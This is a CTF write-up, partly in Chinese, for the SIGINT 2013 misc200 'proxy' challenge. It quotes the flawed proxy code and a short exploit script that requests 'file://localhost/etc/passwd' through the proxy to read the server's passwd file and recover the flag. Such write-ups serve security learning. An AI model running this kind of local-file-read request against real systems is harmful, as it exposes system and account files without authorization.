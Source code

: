 ```yaml
---
layout: post
title: "SIGINT 2013 misc200 proxy"
description: "SIGINT 2013 misc 200 proxy read arbitrary file"
category: "writeup"
tags: ["SIGINT 2013", "misc", "writeup"]
---
```

{% include JB/setup %}
#SIGINT 2013 misc200 proxy

Description                                                                                                                                                                                       

    Running on 188.40.147.125

[proxy.py](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/misc/proxy/proxy.py)

######（这题略水）
从代码来看似乎运行着一个代理的服务。

```python
class Proxy(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_GET(self):
        parsed_url = urlparse(self.path)
        print self.path, self.wfile
        logging.info(parsed_url)
        if parsed_url.netloc == "localhost":
            self.copyfile(urllib2.urlopen(self.path), self.wfile)
```

[urlparse()](http://docs.python.org/2/library/urlparse.html)
识别的是URL中`//`起到第一个`/`的部分，这部分必须`localhost`才能读取文件。
也就是只能读本地文件。

```python
import httplib

def call(x):
        host = "188.40.147.125:8080"
        c = httplib.HTTPConnection(host)
        c.request("GET", x)
        r = c.getresponse()
        print r.status
        print r.read()
        print r.getheaders()
        c.close()

if __name__ == '__main__' :
        call("http://localhost/")
        call("file://localhost/etc/passwd")
```

[go.py](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/misc/proxy/go.py)

但是读取`http://localhost/`返回的是静态页面，没有什么信息。
那么直接读取`file://localhost/etc/passwd`呢？似乎直接得到key了。。

    ...
    challenge:x:1000:1000:SIGINT_a64428fe231bcdcabbea:/home/challenge:/bin/bash
    ...
    
FLAG is `SIGINT_a64428fe231bcdcabbea`
